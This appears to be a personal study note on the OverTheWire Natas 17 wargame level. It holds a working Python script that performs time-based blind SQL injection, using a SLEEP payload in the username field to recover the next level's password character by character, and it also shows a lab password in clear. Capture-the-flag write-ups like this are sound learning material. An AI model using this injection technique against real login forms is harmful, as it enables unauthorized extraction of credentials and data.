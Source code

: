 
2024-07-20 14:18

Source:  #natas #py

similar to the [[BlindSQL]] problem in  [[SQL injection w py]] this problem also has one input field named username and a DB schema that defines username and password fields
the difference is that the echo statements are commented out, so we don't get to know if the username with a specified character exists or not .

```python
import requests
import re
import string
from time import *

characters = string.ascii_letters+"0123456789"
username = 'natas17'
password = 'EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC'

url = 'http://natas17.natas.labs.overthewire.org/?debug=true'
session = requests.Session()
seen_password = list()

while ( len(seen_password) < 32 ):
    for character in characters:
    
        start_time = time()
        # print ("start_time", start_time)
        print ("trying", "".join(seen_password) + character)
        
        response = session.post(url, data = {"username": 'natas18" AND BINARY password LIKE "' + "".join(seen_password) + character +  '%" AND SLEEP(1) # '}, auth = (username, password) )

        content = response.text
        end_time = time()
        # print ("end_time", end_time)
        difference = end_time - start_time

        if ( difference > 1 ):
            # success, correct character!
            seen_password.append(character)
            break
        # print content
```
## TLDR 

- start timer before posting request and end timer after receiving the request 
- in the response we create a delay of 1 second if we find the character in the password 
- we then measure the difference between start time and end time 
- for characters with delay of more than 1 second we add them to the seen list

### References
https://www.youtube.com/watch?v=GDOpW-LShy8&t=1s
